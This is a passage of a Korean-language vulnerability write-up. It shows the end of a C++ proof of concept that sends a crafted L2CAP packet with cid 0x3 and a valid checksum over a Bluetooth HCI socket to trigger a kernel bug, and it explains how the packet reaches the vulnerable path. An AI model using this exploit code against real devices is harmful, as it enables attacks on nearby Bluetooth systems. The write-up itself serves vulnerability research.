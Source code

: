 ```c++
  uint16_t hci_handle = l2_conninfo.hci_handle;
  printf("[+] HCI handle: %x\n", hci_handle);

  printf("[*] Sending malicious L2CAP packet...\n");
  struct {
    l2cap_hdr hdr;
    uint16_t ctrl;
    uint16_t fcs;
  } packet = {0};
  packet.hdr.len = htobs(sizeof(packet) - L2CAP_HDR_SIZE);
  packet.hdr.cid = htobs(AMP_MGR_CID);
  packet.fcs = crc16(0, &packet, sizeof(packet) - 2);
  hci_send_acl_data(hci_socket, hci_handle, &packet, sizeof(packet));

  close(l2_sock);
  hci_close_dev(hci_socket);

  return 0;
}
```
취약한 로직으로 분기하기 위해 `hdr.cid`를 `0x3`으로 설정하는 것을 확인할 수 있다. 체크섬 통과를 위한 `fcs` 필드도 설정했기 때문에 중간에 `goto drop`으로 분기되지 않고 성공적으로 트리거할 수 있다.
